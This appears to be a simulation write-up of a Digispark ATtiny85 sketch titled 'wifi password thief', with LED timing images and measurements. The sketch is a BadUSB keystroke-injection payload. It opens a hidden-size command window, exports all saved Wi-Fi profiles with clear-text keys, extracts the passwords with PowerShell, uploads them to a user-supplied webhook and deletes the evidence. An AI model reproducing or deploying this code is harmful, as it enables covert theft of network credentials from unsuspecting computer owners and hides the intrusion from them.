
The sketch below on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 112.0 s:

Timing chart, 0 to 113.5 s (numbered marks = the images above):


The sketch:

ladrao_de_senha_wifi.ino
```cpp
#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);

  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(800);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //aqui abrirá a janela do cmd de formato pequeno (pequeno apenas no WIN10)
  DigiKeyboard.delay(1300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri <ADICIONE AQUI A URL DO SEU WEBHOOK> -Method POST -InFile Wi-Fi-PASS"); //Insira a URL do seu webhook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```

Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 8.5 s, → LOW 90.0 s later, → HIGH 13.5 s later
